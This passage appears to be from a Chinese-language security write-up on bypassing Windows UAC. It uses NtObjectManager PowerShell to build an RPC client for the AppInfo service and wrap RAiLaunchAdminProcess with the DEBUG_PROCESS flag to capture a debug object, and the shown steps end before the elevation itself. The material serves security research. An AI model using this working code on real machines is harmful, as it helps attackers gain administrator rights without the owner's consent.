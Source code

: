 
将文件保存为`names.xml`，然后使用如下命令将其应用于RPC服务端：

```
Get-Content "names.xml" | Set-RpcServerName $rpc
```

**步骤4：**根据RPC服务端创建客户端对象。该过程涉及若干操作：生成C#源码文件（其中实现了RPC客户端），然后将C#文件编译成临时的程序集，最终创建该客户端对象的一个新实例。此时RPC客户端并没有连接，只是实现了导出函数以及用来封装参数的代码。如果想查看生成的C#代码，我们也可以使用`Format-RpcClient`函数。

```
$client = Get-RpcClient $rpc
```

**步骤5：**将客户端连接到本地RPC服务端的ALPC端口。由于UAC RPC服务端使用的是RPC Endpoint Mapper，因此我们不需要知道ALPC端口的名称，可以实现自动查找。如果该服务可以在特定条件下触发（比如`APPINFO`服务），那么这个过程还可以帮我们自动启动对应的系统服务。

```
Connect-RpcClient $client
```

**步骤6：**定义封装`RAiLaunchAdminProcess`方法的一个PowerShell函数，这样多次调用起来会更加方便。这里我们可以在进程创建过程中传入可选的`DEBUG_PROCESS`标志，根据具体需求选择是否提升进程权限。该函数将返回一个`NtProcess`对象，该对象可以用来访问创建进程的属性（包括调试对象）。需要注意的是，当调用`RAiLaunchAdminProcess`时，传出参数（如`ProcessInformation`）会以结构体形式返回，这样PowerShell用起来比较方便，如果确实需要使用`out`和`ref`参数时，可以选择将其禁用。

```
function Start-Uac `{`
  Param(
    [Parameter(Mandatory, Position = 0)]
    [string]$Executable,
    [switch]$RunAsAdmin
  )

  $CreateFlags = [NtApiDotNet.Win32.CreateProcessFlags]::DebugProcess -bor `
        [NtApiDotNet.Win32.CreateProcessFlags]::UnicodeEnvironment
  $StartInfo = $client.New.APP_STARTUP_INFO()

  $result = $client.RAiLaunchAdminProcess($Executable, $Executable,`
          [int]$RunAsAdmin.IsPresent, [int]$CreateFlags,`
          "C:\", "WinSta0\Default", $StartInfo, 0, -1)
  if ($result.retval -ne 0) `{`
    $ex = [System.ComponentModel.Win32Exception]::new($result.retval)
    throw $ex
  `}`

  $h = $result.ProcessInformation.ProcessHandle.Value
  Get-NtObjectFromHandle $h -OwnsHandle
`}`
```

**步骤7：**创建未提升的进程，然后获取调试对象。这里我们我们可以创建`notepad`进程。获取调试对象后，我们需要detach调试器，否则在等待调试事件时，我们会从该进程及已提升的进程中收到混合在一起的消息。此外，如果不执行detach操作，进程也不会被终止。

```
$p = Start-Uac "c:\windows\system32\notepad.exe"
$dbg = Get-NtDebug -Process $p
Stop-NtProcess $p
Remove-NtDebugProcess $dbg -Process $p
```
